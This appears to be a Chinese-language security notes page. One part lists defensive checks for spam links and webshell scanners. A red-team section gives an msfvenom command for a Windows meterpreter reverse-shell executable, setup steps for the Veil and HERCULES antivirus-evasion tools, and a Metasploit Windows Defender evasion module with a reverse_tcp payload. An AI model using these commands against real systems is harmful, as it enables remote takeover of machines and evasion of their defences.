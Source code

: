 **文章**
- [经验分享 | 企业如何做好安全基线配置](https://www.freebuf.com/articles/es/158781.html)

---

### 应用安全

**查暗链**
1. 搜索引擎:`黑产关键字+site:"网站域名"`
2. 用类似xenu(尽量在虚拟机下运行)的工具批量爬取网站外链查看有无关键字

**查后门**
1. [D盾](http://www.d99net.net/)
2. [深信服Web后门扫描](http://edr.sangfor.com.cn/backdoor_detection.html)
3. [河马webshell查杀](http://www.shellpub.com/)
4. [铱迅Webshell扫描器](http://www.yxlink.com/technology.php)
5. [网站安全狗网马查杀](download.safedog.cn/download/software/safedogwzApache.exe)
6. [OpenRASP WEBDIR+检测引擎](https://scanner.baidu.com)

---

# 6RedTeam
## 权限维持/反侦察
### 通用

**msfvenom**

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -f exe > ./vu.exe`

**Veil**
```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/setup/
sudo ./setup.sh –c
sudo ./Veil.py
```

**HERCULES**
```bash
确保电脑里有Go
git clone https://github.com/noosec/HERCULES.git
cd HERCULES
wget -c https://github.com/fatih/color
go get github.com/fatih/color
go run Setup.go
cp -rf /root/go/src/github.com /usr/lib/go-1.7/src/github.com
cd SOURCE/
go run HERCULES.go
```

**ASWCrypter**
**VENOM**
**Metasploit**
```bash
use evasion/windows/windows_defender_exe
set payload windows/x64/meterpreter/reverse_tcp
set lhost
set lport
run
```

---